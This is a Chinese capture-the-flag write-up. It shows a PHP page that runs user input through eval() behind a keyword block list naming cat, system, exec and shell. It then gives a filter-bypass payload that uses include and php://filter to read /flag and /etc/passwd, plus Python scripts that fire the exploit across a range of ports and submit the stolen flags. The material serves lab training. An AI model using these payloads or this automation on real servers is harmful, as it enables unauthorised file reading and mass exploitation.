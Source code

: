## level 0

#### 知识积累

1.[php伪协议](https://blog.csdn.net/nzjdsds/article/details/82461043)

2.php不需要括号的函数

```php
<?php
echo 123;
print 123;
die;
include "/etc/passwd";
require "/etc/passwd";
include_once "/etc/passwd";
require_once "etc/passwd";
?>

```



#### 分析代码

```php
<?php
error_reporting(0);
if(isset($_GET['cmd'])){
    $c = $_GET['cmd'];
    if(!preg_match("/cat|system|exec|tac|more|tail|flag|`|sort|\.|shell| |php/i", $c)){
        echo "flag藏在/flag";
        echo "<br>";
        eval($c);
    }
    else
    {
        die('hacker!!');
    }
    
}else{
    highlight_file(__FILE__);
}

?>
```

1.过滤了cat,system,exec,tac,more,tail,flag,`,sort,.,shell,php,空格

 2.`echo "flag藏在/flag"`提示了flag藏在/flag



所以得到playload：?cmd=include$_GET["a"]？>&a=php://filter/read=convert/resource=/flag

访问得到flag

## level 1

```python
import requests
url1 = 'http://172.23.26.66:'
url2 ='/?cmd=include$_GET["a"]?>&a=php://filter/read=convert/resource=/flag'
for i in range(12345 , 12355):
  url = url1+ str(i)+ url2
  r = requests.get(url)
  print (r.text[15:])

```

结果如下

![](https://i.loli.net/2021/02/03/u7Syqr2RhMUiJGO.png)



## level2

```python
import requests
import json
url1 = 'http://172.23.26.66:'
url2 ='/?cmd=include$_GET["a"]?>&a=php://filter/read=convert/resource=/flag'
url3 ='http://172.23.26.66:10001/submit.php'
for i in range(12345 , 12355):
  url = url1+ str(i)+ url2
  r = requests.get(url)
  flag = r.text[15 :53]
  data={'myflag':flag}
  result = requests.post(url3,data=data)
  print(result.text)
```

结果如下

![image-20210206192804742](https://i.loli.net/2021/02/06/ye1IMqivBWwpY9C.png)

